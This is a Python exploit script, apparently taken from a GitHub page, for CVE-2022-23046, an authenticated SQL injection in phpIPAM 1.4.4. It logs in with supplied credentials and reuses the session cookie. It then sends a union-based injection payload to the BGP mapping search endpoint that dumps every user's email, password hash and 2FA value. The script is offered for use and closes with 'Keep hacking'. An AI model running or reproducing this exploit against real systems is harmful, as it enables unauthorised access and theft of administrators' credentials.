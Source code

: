 ```python
menu = argparse.ArgumentParser(description="[+] Exploit for PHPIPAM Version: 1.4.4 Authenticated SQL Injection\n CVE-2022-23046")
menu.add_argument("-u", "--url", help="[+] URL of target, example: https://phpipam.target.com", type=str)
menu.add_argument("-U", "--user", help="[+] Username", type=str)
menu.add_argument("-P", "--password", help="[+] Password", type=str)
args = menu.parse_args()

if len(sys.argv) < 3:
    menu.print_help()

target = args.url
user = args.user
password = args.password

def get_token():
    u = f"{target}/app/login/login_check.php"

    try:
        r = requests.post(u, verify=False, timeout=10, headers={"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}, data={"ipamusername":user, "ipampassword":password})
        headers = r.headers['Set-Cookie']
        headers_string = headers.split(';')
        for s in headers_string:
            if "phpipam" in s and "," in s: # double same cookie Check LoL
                cookie = s.strip(',').lstrip()
                return cookie
    except Exception as e:
        print(f"[+] {e}")

def exploit_sqli():
    cookie = get_token()
    xpl = f"{target}/app/admin/routing/edit-bgp-mapping-search.php"
    data = {
        "subnet":'pwn"union select(select concat(@:=0x3a,(select+count(*) from(users)where(@:=concat(@,email,0x3a,password,"0x3a",2fa))),@)),2,3,user() -- -', # dios query dump all :)
        "bgp_id":1
    }

    headers = {
        "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Cookie": cookie
    }

    try:
        r = requests.post(xpl, verify=False, timeout=10, headers=headers, data=data)
        if "admin" in r.text or "rounds" in r.text:
            print("[+] Vulnerable..\n\n")
            print(f"> Users and hash passwords: \n\n{r.text}")
            print("\n\n> DONE <")
    except Exception as e:
        print(f"[-] {e}")

if __name__ == '__main__':
    exploit_sqli()
```

Keep hacking #thanks .
